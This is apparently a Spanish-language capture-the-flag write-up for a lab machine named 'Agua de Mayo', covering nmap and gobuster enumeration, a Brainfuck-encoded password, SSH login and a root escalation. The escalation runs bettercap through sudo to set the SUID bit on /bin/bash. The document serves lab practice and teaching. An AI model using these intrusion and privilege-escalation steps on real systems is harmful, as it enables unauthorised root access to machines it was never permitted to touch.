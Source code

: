 
# Agua de Mayo
![image](https://github.com/user-attachments/assets/d4ee9a17-fcbe-41a2-ae97-464c3736755e)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sSCV -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sSCV`: Realiza un escaneo SYN, de versiones y vulnerabilidades.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
![image](https://github.com/user-attachments/assets/ed50cfd3-edc0-44cd-82a7-3674d6df2be8)

En la página principal vemos la página por defecto de Apache, por lo que vamos a hacer fuzzing con **gobuster**. Aunque si miramos el código fuente de la página y bajamos hata el final nos encontramos con un comentario.

```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```
Es un mensaje codificado en **brainfuck** y si vamos a [dcode](https://www.dcode.fr/brainfuck-language) podremos descifraslo fácilmente.

![image](https://github.com/user-attachments/assets/1c963813-2e64-4947-a5dd-0f45f7dd3808)

Una vez tenemos una posible contraseña, miramos el resultado del fuzzing a ver si encontramos algo.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
![image](https://github.com/user-attachments/assets/1a88b909-9812-4fad-934e-9e35d10cdd50)

Encontramos el directorio **/images** y dentro de él una imagen llamada **agua_ssh.jpg**.

![image](https://github.com/user-attachments/assets/3ffae8f6-13dc-46e5-803c-42efaec93eb3)

Después de buscar si encontramos algo dentro de la imágen, vemos que no hay nada pero que el nombre podría indicarnos un que el usuario de **ssh** sea **agua**. Lo comprobamos con la contraseña y estamos dentro de la máquina.

## Explotación.

```bash
ssh agua@172.17.0.2
```
![image](https://github.com/user-attachments/assets/6044a823-212c-427f-a4af-06b2cc4b3c32)

## Escalada de privilegios.

Comprobamos si hay algún archivo que podamos utilizar con permisos de root.
```bash
sudo -l
```
Vemos que podemos ejecutar **/usr/bin/bettercap** como **root**. Lo ejecutamos y encontramos en la ayuda que podemos ejecutar un comando.

![image](https://github.com/user-attachments/assets/dd3cf928-7197-4a20-85d2-9452b10ad972)

Aprovechamos para cambiar los permisos a la **bash** y así ejecutarla como privilegios.

```bash
! chmod u+s /bin/bash
```
Salimos, y ejecutamos el siguiente comando para optener la bash como **root**.

```bash
/bin/bash -p
```
![image](https://github.com/user-attachments/assets/e42da890-b5cf-497b-aa4c-70011c2c296e)
